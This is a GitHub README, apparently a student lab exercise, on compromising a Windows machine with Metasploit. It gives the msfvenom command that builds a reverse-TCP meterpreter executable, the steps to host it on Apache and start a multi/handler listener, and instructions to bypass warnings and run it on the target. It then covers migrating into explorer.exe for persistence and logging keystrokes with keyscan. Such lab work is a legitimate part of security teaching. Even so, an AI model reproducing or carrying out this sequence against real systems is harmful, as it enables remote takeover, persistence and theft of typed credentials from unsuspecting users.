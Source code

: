 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## OUTPUT:
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/c828dc3b-0950-4b85-a0d9-eb07782e90ef)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.
## OUTPUT:
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/79999a69-ac6e-404c-b2a5-e2175a49a698)
the fun.exe into the apache /var/www/html folder

![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/83f50d9d-f2f6-49ae-ba7d-8fb2594795c3)
Start apache server sudo systemctl apache2 start
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/b7fb41ee-baa5-4874-9523-2a3b95bcd198)
Check the status of apache2
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/647113b2-98db-4de7-859b-04da1361dd50)
Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/3f078903-42c9-46f2-99ed-2baab366bc27)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/6e4cd44a-79e7-47a3-ab0d-439b2f892c9d)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/bbdc1d60-c3e0-42dc-bb13-fac3f56b9dc8)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/27926ddb-ba4b-4a9b-a5dd-a6820006351f)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/8845cb91-bb77-4c41-8e61-d66c74a93155)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/00a6fe1d-b702-407b-8ae7-c3acc15bfa6f)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

